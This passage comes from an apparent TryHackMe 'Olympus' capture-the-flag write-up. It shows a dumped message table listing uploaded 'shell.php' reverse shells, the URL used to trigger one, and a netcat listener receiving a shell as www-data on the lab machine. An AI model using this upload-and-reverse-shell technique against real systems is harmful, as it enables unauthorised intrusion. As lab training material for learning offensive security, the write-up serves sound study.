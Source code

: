 ```
| dt         | msg                                                                                                                                                             | uname      | file                                 |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | prometheus | 47c3210d51761686f3af40a875eeaaea.txt |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | prometheus | <blank>                              |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | zeus       | <blank>                              |
| 2023-10-03 | reverse shell                                                                                                                                                   | prometheus | <blank>                              |
| 2023-10-03 | Attached : shell.php                                                                                                                                            | prometheus | 678821b8dbb704be049c0d9c68dd3019.php |
| 2023-10-03 | reverse shell                                                                                                                                                   | prometheus | <blank>                              |
| 2023-10-03 | Attached : shell.php                                                                                                                                            | prometheus | fb0f65c0d96254d401a10b94e011351c.php |
| 2023-10-03 | Attached : shell.php                                                                                                                                            | prometheus | a04582f667da7325352a2eb73285d8cd.php |
| 2023-10-03 | Attached : shell.php                                                                                                                                            | prometheus | 7910b0ca5707e12cb56f8f661c065ec7.php |
| 2023-10-03 | again                                                                                                                                                           | prometheus | <blank>                              |
| 2023-10-03 | Attached : shell.php                                                                                                                                            | prometheus | 450a4fa049199186122357d4482f6c87.php |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
```

Cool! I now get the full path of my uploaded reverse shell. Let’s execute it:

```
http://[REDACTED].olympus.thm/uploads/450a4fa049199186122357d4482f6c87.php
```

```
┌──(kali㉿kali)-[~/TryHackMe/olympus]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.117.198] 39082
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 07:25:48 up 48 min,  0 users,  load average: 0.00, 0.03, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)
```
